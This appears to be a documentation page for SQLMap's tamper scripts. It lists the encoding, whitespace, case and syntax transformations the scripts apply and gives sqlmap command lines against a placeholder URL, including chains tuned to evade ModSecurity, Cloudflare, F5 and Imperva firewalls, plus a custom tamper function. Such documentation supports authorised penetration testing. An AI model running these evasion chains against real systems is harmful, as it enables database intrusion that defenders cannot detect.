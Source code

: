 ```yaml
---
title: Tamper Scripts
description: Learn how to use SQLMap's tamper scripts to evade detection and bypass security controls
---
```


# Tamper Scripts

SQLMap's tamper scripts are powerful tools that modify SQL injection payloads to help evade detection by security mechanisms such as Web Application Firewalls (WAFs), Intrusion Detection Systems (IDS), and Intrusion Prevention Systems (IPS).

## Understanding Tamper Scripts

Tamper scripts work by transforming the SQL injection payload before it's sent to the target. These transformations can include:

- Character encoding
- Case manipulation
- Whitespace modification
- Comment insertion
- Syntax alterations
- String concatenation

## Using Tamper Scripts

### Basic Usage

To use a single tamper script:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tamper=between
```

This applies the `between` tamper script, which replaces greater than and less than operators with equivalent BETWEEN expressions.

### Chaining Multiple Scripts

You can chain multiple tamper scripts, which will be applied in the specified order:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tamper=between,space2comment,randomcase
```

This applies three tamper scripts in sequence:
1. `between`: Replaces operators with BETWEEN expressions
2. `space2comment`: Replaces spaces with comments
3. `randomcase`: Randomizes the case of SQL keywords

## Common Tamper Scripts

### Character Encoding Scripts

- `base64encode`: Encodes all characters in Base64
- `charencode`: URL-encodes all characters in a payload
- `charunicodeencode`: Unicode-encodes characters
- `hex2char`: Replaces hexadecimal encoded characters with their actual character

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tamper=charencode
```

### Whitespace Manipulation Scripts

- `space2comment`: Replaces spaces with comments
- `space2dash`: Replaces spaces with dashes followed by a comment
- `space2hash`: Replaces spaces with hashes followed by a random string and a new line
- `space2plus`: Replaces spaces with plus signs
- `space2randomblank`: Replaces spaces with random whitespace characters

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tamper=space2comment
```

### Case Manipulation Scripts

- `randomcase`: Randomizes the case of SQL keywords
- `lowercase`: Converts all uppercase characters to lowercase
- `uppercase`: Converts all lowercase characters to uppercase

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tamper=randomcase
```

### Syntax Modification Scripts

- `between`: Replaces greater than and less than operators with BETWEEN expressions
- `equaltolike`: Replaces equal operators with LIKE operators
- `greatest`: Replaces greater than operator with GREATEST function
- `ifnull2ifisnull`: Replaces IFNULL with IF(IS NULL)
- `modsecurityversioned`: Adds versioned MySQL comment

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tamper=between,equaltolike
```

## WAF-Specific Tamper Scripts

### ModSecurity

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tamper=modsecurityversioned,space2comment,space2hash,charunicodeencode,securesphere
```

### Cloudflare

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tamper=cloudflare
```

### F5 BIG-IP ASM

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tamper=charunicodeencode,space2randomblank,apostrophemask,randomcase
```

### Imperva SecureSphere

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tamper=securesphere
```

## Creating Custom Tamper Scripts

You can create custom tamper scripts to address specific evasion needs:

1. Create a Python file in the SQLMap `tamper` directory
2. Define a `tamper` function that takes and returns a payload
3. Implement your transformation logic

Example custom tamper script (`mytamper.py`):

```python
#!/usr/bin/env python

def tamper(payload, **kwargs):
    """
    Description of your tamper script
    """
    retVal = payload
    
    if payload:
        # Your transformation logic here
        retVal = payload.replace("SELECT", "SEL/**/ECT")
    
    return retVal
```

<Note title="Performance Impact">
Using multiple tamper scripts can significantly slow down the testing process. Only use the tamper scripts necessary for your specific scenario.
</Note>

## Troubleshooting Tamper Scripts

If you're having issues with tamper scripts:

1. Use verbose mode (`-v`) to see the transformed payloads
2. Try different combinations of tamper scripts
3. Ensure the tamper scripts are compatible with your target DBMS
4. Consider the order of tamper scripts, as it can affect the final payload
5. Some tamper scripts may break the syntax for certain injection types
